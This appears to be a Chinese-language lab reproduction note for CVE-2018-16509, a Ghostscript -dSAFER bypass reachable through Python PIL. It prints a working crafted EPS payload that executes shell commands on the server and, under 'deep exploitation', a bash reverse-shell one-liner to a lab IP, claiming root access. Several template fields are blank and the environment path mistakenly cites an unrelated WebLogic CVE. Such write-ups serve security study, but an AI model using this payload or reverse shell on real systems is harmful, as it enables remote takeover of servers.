






# Python PIL 远程命令执行漏洞（via Ghostscript）

| 说明     | 内容                          |
| -------- | ----------------------------- |
| 漏洞编号 | PIL-CVE-2018-16509            |
| 漏洞名称 | Python PIL 远程命令执行漏洞   |
| 漏洞评级 |                               |
| 影响范围 |                               |
| 漏洞描述 |                               |
| 修复方案 | 打补丁<br >上设备<br>升级组件 |


### 1.1、漏洞描述

Ghostscript是一套基于Adobe Systems PostScript和可移植文档格式（PDF）页面描述语言的解释器的软件。不知何故，Ghostscript存在于生产服务器中（例如`/usr/local/bin/gs`或`/usr/bin/gs`），即使没有应用程序直接使用它，因为Ghostscript是作为另一个软件的依赖项安装的（例如ImageMagick）。在Ghostscript中发现了一系列漏洞;其中之一是CVE-2018-16509（由Google Project Zero的Tavis Ormandy发现），该漏洞允许利用Ghostscript  v9.24之前的-dSAFER旁路，通过处理PostScript中失败的恢复（grestore）来执行任意命令，以禁用LockSafetyParams并避免invalidaccess。此漏洞可通过ImageMagick等库或具有Ghotscript包装器的编程语言中的图像库（本示例中为PIL/Pillow）访问。

### 1.2、漏洞等级

### 1.3、影响版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/weblogic/CVE-2017-10271

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8000/`即可看到




#### 2、漏洞分析

[vulhub](https://vulhub.org/#/environments/python/PIL-CVE-2018-16509/)

#### 3、漏洞验证

可以上传[rce.jpg](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2018-16509/rce.jpg)（一个特制的EPS图像，而不是真实的的JPG）以在服务器中执行`touch /tmp/got_rce`



```bash
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```







### 1.5、深度利用

#### 1、反弹Shell

修改`poc.png`内容，重新上传，上传一句话木马反弹到kali机器上

```bash
bash -c "bash -i &> /dev/tcp/192.168.8.8/6868 0>&1"
```



成功拿到root权限



### 1.6、修复建议